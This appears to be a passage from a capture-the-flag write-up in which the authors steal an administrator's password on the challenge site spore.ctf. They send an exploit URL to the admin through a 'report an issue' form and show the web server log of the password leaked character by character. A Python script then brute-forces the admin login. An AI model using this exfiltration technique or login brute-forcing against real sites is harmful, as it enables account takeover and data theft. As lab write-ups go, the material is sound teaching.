 With a working exploit in hand, now we needed to deploy it against the administrator; we pasted the exploit URL into the "report an issue" form, and waited to start seeing requests to our webserver:

```
127.0.0.1 - - [26/May/2022 00:21:27] "GET /inject/v HTTP/1.1" 200 -
127.0.0.1 - - [26/May/2022 00:21:27] "GET /inject/a HTTP/1.1" 200 -
127.0.0.1 - - [26/May/2022 00:21:27] "GET /inject/r HTTP/1.1" 200 -
127.0.0.1 - - [26/May/2022 00:21:27] "GET /inject/x HTTP/1.1" 200 -
127.0.0.1 - - [26/May/2022 00:21:27] "GET /inject/%3D HTTP/1.1" 200 -
127.0.0.1 - - [26/May/2022 00:21:27] "GET /inject/%22 HTTP/1.1" 200 -
127.0.0.1 - - [26/May/2022 00:21:28] "GET /inject/8 HTTP/1.1" 200 -
127.0.0.1 - - [26/May/2022 00:21:28] "GET /inject/g HTTP/1.1" 200 -
127.0.0.1 - - [26/May/2022 00:21:28] "GET /inject/s HTTP/1.1" 200 -
127.0.0.1 - - [26/May/2022 00:21:28] "GET /inject/d HTTP/1.1" 200 -
127.0.0.1 - - [26/May/2022 00:21:28] "GET /inject/o HTTP/1.1" 200 -
127.0.0.1 - - [26/May/2022 00:21:28] "GET /inject/; HTTP/1.1" 200 -
127.0.0.1 - - [26/May/2022 00:21:29] "GET /inject/f HTTP/1.1" 200 -
127.0.0.1 - - [26/May/2022 00:21:29] "GET /inject/u HTTP/1.1" 200 -
127.0.0.1 - - [26/May/2022 00:21:29] "GET /inject/n HTTP/1.1" 200 -
127.0.0.1 - - [26/May/2022 00:21:29] "GET /inject/i HTTP/1.1" 200 -
127.0.0.1 - - [26/May/2022 00:21:29] "GET /inject/c HTTP/1.1" 200 -
127.0.0.1 - - [26/May/2022 00:21:29] "GET /inject/t HTTP/1.1" 200 
```

This exfiltration appears to have mostly worked, but the password only appears to be five characters; we tried logging in as `admin@spore.ctf` using the shorter password, but did not succeed. However, given what we know about how the attack works, and making some assumptions (namely, passwords are alphanumeric), we deduced that the missing character in the password had to be one of `varx`, as those were the only alphanumeric characters to appear before the password in the script. This felt like an acceptably small number of possibilites to brute-force (only 20 total), so I wrote a quick script to do so:

```python3
import requests
possiblechars = 'varx' #' ="'
base = '8gsdo'
for i in range(len(base)):
    for c in possiblechars:
        guess = base[:i]+c+base[i:]
        print('Guessing:',guess)
        r=requests.post('http://spore.ctf/login',data={'username':'admin@spore.ctf','password':guess})
        if 'Logged in' in r.text:
            print('Got it!', guess)
```

This successfully retrieved the administrator's password pretty much instantly (`8gvsdo`), at which point we were able to log in as the administrator and view their NFT, which contained the flag!

